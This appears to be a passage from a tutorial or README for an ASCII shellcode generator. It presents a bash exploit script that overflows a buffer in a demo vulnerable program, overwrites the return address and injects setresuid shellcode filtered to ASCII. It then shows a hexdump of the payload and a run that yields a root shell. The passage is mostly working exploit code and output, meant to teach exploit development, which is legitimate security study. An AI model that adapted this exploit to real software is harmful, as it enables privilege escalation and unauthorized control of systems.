 
```bash
#!/bin/bash

set -e

ret_offset="24"
ret_addresse="\x24\xdc\xff\xff"
esp_offset="-316"
nop_factor="0"

input_book_ref=$(perl -e "print 'A'x'$ret_offset'.'$ret_addresse'.'\n'")

setresuid_shellcode=$(hexdump -v -e '"\\" "x" 1/1 "%02X"' setresuid_shellcode)

ascii_shellcode=$(./PolyAsciiShellGen $esp_offset $nop_factor $setresuid_shellcode)

echo -e "$input_book_ref$ascii_shellcode"
```

The following output show the data content injected in the vulnerable program
exemple. The data at offset 0x0 will overflow the `b_info.book_ref` buffer and the
last four bytes in at 0x18 will overwrite the return address of the `register_book()`
function with the address `0xffffdc24`. The data at offset 0x1b are the ASCII
shellcode generated by `PolyAsciiShellGen` and will be store in the `b_info.comment`
buffer located at `0xffffdc24`.

```text
$ ./exploit_ascii_filter_sample.sh | hexdump -C
00000000  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41  |AAAAAAAAAAAAAAAA|
00000010  41 41 41 41 41 41 41 41  24 dc ff ff 0a 54 58 2d  |AAAAAAAA$....TX-|
00000020  76 76 76 76 2d 76 57 57  57 2d 50 33 32 32 50 5c  |vvvv-vWWW-P322P\|
00000030  25 44 44 44 44 25 30 30  30 30 2d 49 42 42 42 2d  |%DDDD%0000-IBBB-|
00000040  37 2d 2d 2d 50 2d 4e 4e  4e 4e 2d 72 4e 33 42 2d  |7---P-NNNN-rN3B-|
00000050  6d 6a 2d 32 50 2d 31 31  31 31 2d 72 31 72 31 2d  |mj-2P-1111-r1r1-|
00000060  56 72 72 31 2d 77 62 42  57 50 2d 37 4b 4b 64 2d  |Vrr1-wbBWP-7KKd-|
00000070  25 4b 64 7a 2d 25 52 6b  7a 50 2d 74 74 74 74 2d  |%Kdz-%RkzP-tttt-|
00000080  43 43 43 74 2d 38 49 4e  71 50 2d 5f 5f 5f 5f 2d  |CCCt-8INqP-____-|
00000090  5f 5f 5f 5f 2d 64 41 7a  41 50 2d 65 30 34 65 2d  |____-dAzAP-e04e-|
000000a0  65 30 25 65 2d 56 47 25  59 50 2d 54 76 6e 54 2d  |e0%e-VG%YP-TvnT-|
000000b0  2d 79 74 36 50 2d 2d 33  33 33 2d 2d 64 33 33 2d  |-yt6P--333--d33-|
000000c0  25 70 35 48 50 2d 56 56  56 56 2d 56 50 56 56 2d  |%p5HP-VVVV-VPVV-|
000000d0  54 62 53 4a 50 0a                                 |TbSJP.|
000000d6
```

Here the exploitation of the vulnerable program exemple, a shell pop and the
root privileges are restored.

```text
$ ( ./exploit_ascii_filter_sample.sh; cat ) | ./exec_wrapper

[demo exec wrapper] Executing ./vuln_ascii_filter_sample

[0xffffdc24] @b_info.comment
[0xffffde24] @b_info.book_ref
[+] Enter a book reference:
[+] Enter a book commentary:
[+] Book registered.

reference: AAAA�
commentary: TX-vvvv-vWWW-P322P\%DDDD%0000-IBBB-7---P-NNNN-rN3B-mj-2P-1111-r1r1-Vrr1-wbBWP-7KKd-%Kdz-%RkzP-tttt-CCCt-8INqP-____-____-dAzAP-e04e-e0%e-VG%YP-TvnT--yt6P--333--d33-%p5HP-VVVV-VPVV-TbSJP

whoami
root

```